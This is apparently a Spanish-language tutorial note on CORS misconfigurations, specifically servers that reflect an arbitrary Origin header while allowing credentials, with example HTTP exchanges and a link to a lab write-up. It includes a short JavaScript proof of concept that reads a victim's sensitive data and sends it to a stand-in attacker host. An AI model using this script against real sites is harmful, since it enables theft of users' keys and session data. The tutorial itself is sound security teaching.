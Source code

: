 Muchos `sitios web modernos` utilizan `CORS` para permitir el acceso desde `subdominios` y `sitios web de terceros`. Sin embargo, su `implementación de CORS` puede contener `errores` o ser `demasiado permisiva`, lo que puede resultar en `vulnerabilidades explotables`

### Cabecera ACAO generada por el servidor a partir de la cabecera Origin especificada por el cliente

Algunas `aplicaciones` necesitan proporcionar `acceso` a `múltiples dominios`. Mantener una `lista de dominios permitidos` requiere `esfuerzo continuo`, y cualquier `error` podría `interrumpir la funcionalidad`. Por ello, `algunas aplicaciones permiten acceso desde cualquier dominio`

Un método para implementar esto consiste en `leer la cabecera Origin` de las solicitudes e `incluir en la respuesta una cabecera` que indique que el `origen solicitante está permitido`. Por ejemplo, consideremos una `aplicación` que `recibe` la siguiente `solicitud`:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Y posteriormente, `responde` así:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Estas `cabeceras` indican que se permite el `acceso desde el dominio solicitante (malicious-website.com)` y que las solicitudes `cross-origin` pueden incluir `cookies (Access-Control-Allow-Credentials: true)`, por lo que se procesarán dentro de la `sesión del usuario`

Dado que la `aplicación refleja orígenes arbitrarios` en la cabecera `Access-Control-Allow-Origin`, esto significa que absolutamente `cualquier dominio` puede `acceder` a los `recursos` del `dominio vulnerable`. Si la respuesta contiene `información sensible` como una `clave API` o un `token CSRF`, podríamos obtener estos datos utilizando el siguiente `script` en nuestro `sitio web`:

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://vulnerable-website.com/sensitive-victim-data', true);
req.withCredentials = true;
req.send();

function reqListener() {
    location = '//malicious-website.com/log?key=' + this.responseText;
};
```

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- CORS vulnerability with basic origin reflection - [https://justice-reaper.github.io/posts/CORS-Lab-1/](https://justice-reaper.github.io/posts/CORS-Lab-1/)
